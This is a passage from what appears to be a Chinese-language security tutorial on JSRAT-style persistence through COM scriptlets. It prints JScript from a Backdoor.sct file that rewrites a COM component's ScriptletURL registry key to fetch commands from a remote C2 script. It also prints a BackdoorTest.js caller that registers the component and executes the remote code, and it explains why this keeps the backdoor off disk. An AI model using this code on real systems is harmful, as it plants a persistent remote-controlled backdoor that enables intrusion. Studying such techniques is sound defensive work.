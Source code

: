 **注：**

在代理环境下也能正常访问，也支持https访问

0x03 应用1：JSRAT
=====

### 1、Casey的方法

**(1)Backdoor.sct：**

([https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/Backdoor.sct](https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/Backdoor.sct))

关键代码：

```
function C2Config() {
    //The default is to use the path to a local file... Here, I just rewrite the regkey, and now, the Class definition comes form the interwebs. Woo!
    var WshShell = new ActiveXObject("WScript.Shell");
    var strRegPath = "HKEY_CLASSES_ROOT\\CLSID\\{10001111-0000-0000-0000-00000000ACDC}\\ScriptletURL\\";
    WshShell.RegWrite(strRegPath, "http://127.0.0.1:8080/c2.js", "REG_SZ");
    }
/*
function Cleanup() { }
//Clean your room!
*/ 
function Main() {
    C2Config();
    //Cleanup();    
    }

```

当运行Backdoor.sct注册COM组件时，Backdoor.sct会将组件注册表的键值ScriptletURL设为远程服务器上的地址：http://127.0.0.1:8080/c2.js

这样的好处是Backdoor.sct文件不需要保存在系统上面，同时只要修改服务器上的c2.js的内容就可以执行不同的命令

**(2)c2.js**

([https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/c2.js](https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/c2.js)) 此文件包含要执行的js命令

**(3)BackdoorTest.js**

([https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/BackdoorTest.js](https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/BackdoorTest.js)) 用于调用已注册的COM组件，内容如下：

```
//调用Backdoor.sct中的C2Config()，将c2.js的路径写入注册表
var x = new ActiveXObject("Component.Backdoor");
x.Main();

//调用c2.js中的代码执行功能
var x = new ActiveXObject("Component.Backdoor");
x.Exec();

```
